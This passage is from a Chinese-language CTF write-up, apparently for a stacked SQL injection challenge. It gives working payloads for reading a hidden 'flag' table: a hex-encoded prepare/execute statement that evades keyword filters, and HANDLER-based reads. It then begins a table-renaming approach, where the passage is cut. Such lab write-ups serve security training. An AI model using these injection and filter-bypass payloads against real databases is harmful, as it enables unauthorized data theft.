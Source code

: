 >**知识点:**
>
>**在表名为纯数字时,需要把表名用反引号包裹起来!!!!!**

发现在名为`1919810931114514`的表中有一个名为flag的列,那么现在需要尝试获取这个列中的数据

下面是网上找到大佬使用的几种方法:

- **预处理查询语句**

```
1';Set@payload=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execpayload from @payload;execute execpayload;#
//这里先将本来想要执行的select * from `1919810931114514`进行16进制编码
//然后使用Set语句将编码后的语句赋值给一个变量: Set@变量名=变量值
//使用prepare语句对查询语句进行预处理,这个过程里会进行编码转换:prepare 预处理后的变量名 from @变量名
//最后执行预处理后的语句:execute 预处理后的变量名
```

<img src="/images/buuctf-web/image-20221013171514886-16670478197335.png" alt="image-20221013171514886" style="zoom:67%;" />

<br>

- **使用`handler`语句** 关于`handler`具体见[这里](94662ad7.html)

```
1';HANDLER `1919810931114514` OPEN;HANDLER `1919810931114514` READ FIRST;HANDLER `1919810931114514` CLOSE;# 
//或者
1';HANDLER `1919810931114514` OPEN as a;HANDLER a READ FIRST;HANDLER a CLOSE;# 
//这里的逻辑是使用handler语句打开要查询的表,然后读取第一行数据后关闭
```

- **修改表名**

通过前面的查询,库中一共有`word`和`1919810931114514`,`word`表中包含`id`和`data`两列,那么正常输入数字查询出的数据应该来自这个表,那么可以设法使正常查询显示`1919810931114514`这个表中的内容.

如果正常的查询语句为`select id,data from word where id=xxx`,那么只需要让此语句指向另一个表中需要的数据就行了
